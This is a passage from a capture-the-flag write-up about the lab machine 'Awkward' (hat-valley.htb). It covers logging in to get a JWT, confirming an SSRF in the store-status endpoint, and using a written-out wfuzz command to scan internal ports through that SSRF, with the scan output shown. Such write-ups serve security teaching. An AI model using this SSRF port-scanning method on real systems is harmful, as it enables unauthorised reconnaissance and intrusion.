 #### Log In

I’ll generate a POST request to `/api/login` with the collected creds. I know it’s a POST from the JavaScript, as well as the parameter names. The site uses `Content-Type: application/json`, so I’ll use that format here too. It returns a JWT:

[![image-20220926140118807](https://0xdfimages.gitlab.io/img/image-20220926140118807.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220926140118807.png)

Alternatively, I can also just take those creds to the login page and login.

Now the page looks more complete:

![image-20220926140358996](https://0xdfimages.gitlab.io/img/image-20220926140358996.png)

If I add a leave request now, it works, with a message showing up at the top of the form:

![image-20221004135736307](https://0xdfimages.gitlab.io/img/image-20221004135736307.png)

The request is “sent to Christine”. That’s a hint for later.

### Access API Docs

#### SSRF POC

I noted above that there’s a likely SSRF vulnerability in the `/api/store-status` endpoint. I’ll send that request to Burp Repeater (with or without a valid token) and change the GET parameter to be my IP instead of the store domain, and send it:

![image-20220926143118794](https://0xdfimages.gitlab.io/img/image-20220926143118794.png)

There’s a hit on my Python webserver:

```
10.10.11.185 - - [26/Nov/2022 18:28:50] "GET / HTTP/1.1" 200 -

```

Not only that, but the results are shown in the body of the response:

![image-20220926143424885](https://0xdfimages.gitlab.io/img/image-20220926143424885.png)

#### Find Open Services

I’ll use `wfuzz` to look for any open ports on Awkward:

```

oxdf@hacky$ wfuzz -z range,1-65535 --hh 0 -u http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%22
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%22
Total requests: 65535

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000080:   200        8 L      13 W     132 Ch      "80"
000003002:   200        685 L    5769 W   75717 Ch    "3002"
000008080:   200        54 L     163 W    2881 Ch     "8080"

Total time: 640.0032                               
Processed Requests: 65535
Filtered Requests: 65532
```